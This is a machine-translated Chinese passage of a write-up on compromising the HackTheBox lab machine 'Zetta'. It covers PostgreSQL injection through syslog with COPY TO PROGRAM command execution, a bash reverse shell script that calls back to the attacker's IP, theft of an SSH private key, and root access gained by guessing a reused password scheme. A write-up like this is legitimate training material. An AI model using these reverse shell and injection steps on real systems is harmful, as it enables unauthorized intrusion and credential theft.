

远在下面，它提到 Roy 需要改变共享密码方案。目前其 <secrer>@userid。</secrer>



Roy 还在/rsyncd.conf 中提到要排除。rsync 中/etc 列表中的 git:


知道可能有 git 文件夹，这非常有趣，我尝试使用 find 命令来寻找它们:

```
find / -name ".git" -type d 2>/dev/null
```



出现了 3 个 git 文件夹。所有这些服务在 tudu.xml 中都有提到，检查 rsyslog.d 下的文件，有一个配置文件我看不懂。



在处理 git 回购时，我的第一个检查是检查提交:

```
git log -p 
```



commit 显示了对 pgsql.conf .所做的更改，指明了 creds(它们在其他地方不起作用)以及如何将日志推送到 Postgre 的模板。所有线索都指向使用日志的 Postgre 注射。我检查了 postgreql 主日志的内容，并尝试使用 logger 命令生成一些日志:

```
watch -n 1 cat postgresql-11-main.log
```



我知道试着玩伐木:



看到我得到一个语法错误，我查看了 Postgre 注入备忘单，发现这个漏洞正在工作:

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution) [## swisskyrepo/payloads all things

### 选择用户；选择当前用户；选择会话 _ 用户；从 pg_user 中选择 usenameSELECT getpgusername()；选择…

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution) 

CVE 的详细资料提到“[在 PostgreSQL 9.3 到 11.2 中，“复制到程序/从程序复制”功能允许超级用户和‘pg _ execute _ server _ PROGRAM’组中的用户在数据库操作系统用户的上下文中执行任意代码。](https://nvd.nist.gov/vuln/detail/CVE-2019-9193)“Postgres 对此有争议，但尽管如此，它是可行的。

我创建了一个文件，内容如下:

```
#!/bin/bashbash -i >& /dev/tcp/10.10.14.2/9001 0>&1
```

并使用 scp 将它放在 tmp 目录下:

```
scp -i sifo-ssh rev.sh roy@10.10.10.156:/tmp/
```



在弄清楚如何让感染工作之后，我以 postgres 用户的身份获得了一个 shell。



列出文件，我看到一个 psql_history 文件和。ssh 目录:



psql_history 文件的内容包含一个修改用户 postrgres 密码的 sql:



我还抢到了用户 postgres 的私钥。



我现在可以直接以用户 postgres 的身份登录。



请记住，在待办事项列表中，更改共享密码方案还没有完成。



由于用户重复使用密码是很常见的，所以我使用了密码方案 <secret>@userid 作为 root 登录:</secret>

```
sup3rs3cur3p4ass@root
```

我现在是 root，可以读取 root.txt:



这也可以直接从 roy ssh 会话中完成。



这就是我如何从 HacktheBox 解决 Zetta 的！这是一个非常漫长的旅程，但绝对值得！感谢阅读！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)